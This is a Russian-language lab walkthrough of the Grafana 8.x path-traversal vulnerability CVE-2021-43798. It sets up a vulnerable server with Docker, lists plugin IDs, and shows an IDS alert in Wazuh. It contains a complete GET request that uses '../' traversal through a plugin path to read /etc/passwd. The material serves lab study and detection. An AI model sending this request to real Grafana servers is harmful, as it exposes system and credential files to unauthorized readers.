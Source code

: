 # CVE-2021-43798

Grafana — это многоплатформенное веб-приложение для аналитики и интерактивной визуализации с открытым исходным кодом. В декабре 2021 года пользователь Twitter обнаружил уязвимость 0day, позволяющую злоумышленникам, не прошедшим проверку подлинности, использовать эту уязвимость для увеличения веб-пути и загрузки произвольных файлов через URL-адрес Grafana 8.x.

### Эксплуатация уязвимости

Для того, чтобы запустить уязвимый сервер Grafana 8.2.6, выполните команду&#x20;

```
docker compose up -d
```

После запуска сервера вы можете просмотреть страницу входа по адресу `http://ваш-ip:3000`, учетные данные для этой уязвимости отсутствуют.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Уязвимость вызвана модулем плагина, который может обслуживать статический файл внутри папки плагина. Но для обхода проверки злоумышленник может использовать `../`, чтобы перейти из папки плагина в родительскую папку и загрузить произвольные файлы. Чтобы проэксплуатировать данную уязвимость, вам необходимо знать действительный идентификатор плагина, например alertlist. Вот некоторые из распространенных идентификаторов плагина:

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

Отправьте следующий GET-запрос, чтобы прочитать файл /etc/passwd

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.10.11.130:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости и о выводе файла /etc/passwd в ответе на ваш запрос.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
